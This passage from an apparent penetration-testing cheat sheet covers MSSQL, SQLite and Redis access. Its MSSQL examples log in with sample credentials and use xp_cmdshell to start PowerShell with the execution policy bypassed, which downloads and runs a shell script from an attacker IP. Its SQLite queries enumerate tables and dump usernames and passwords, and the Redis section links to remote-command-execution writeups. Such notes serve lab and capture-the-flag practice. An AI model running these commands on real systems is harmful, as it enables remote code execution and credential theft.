 ```
root@kali:$ sqsh -S 127.0.0.1 -U 'MEGACORP\j1v37u2k3y' -P 'Passw0rd!'
1> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.234/shell.ps1')"
2> GO
```



### mssqlclient.py

```
root@kali:$ mssqlclient.py MEGACORP/j1v37u2k3y:'Passw0rd!'@127.0.0.1 [-windows-auth]
SQL> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.14.234/shell.ps1\")"
```



### mssql-cli

* [github.com/dbcli/mssql-cli](https://github.com/dbcli/mssql-cli)

```
root@kali:$ python -m pip install mssql-cli
root@kali:$ mssql-cli -S 127.0.0.1 -U 'MEGACORP\j1v37u2k3y' -P 'Passw0rd!'
```



### DBeaver

* [DBeaver Community](https://dbeaver.io/)



### DbVisualizer

* [DbVisualizer](https://www.dbvis.com/)




## SQLite

```
SELECT tbl_name FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='secret_database';
SELECT username,password FROM secret_database;
```




## Redis

* [packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)
* [2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)
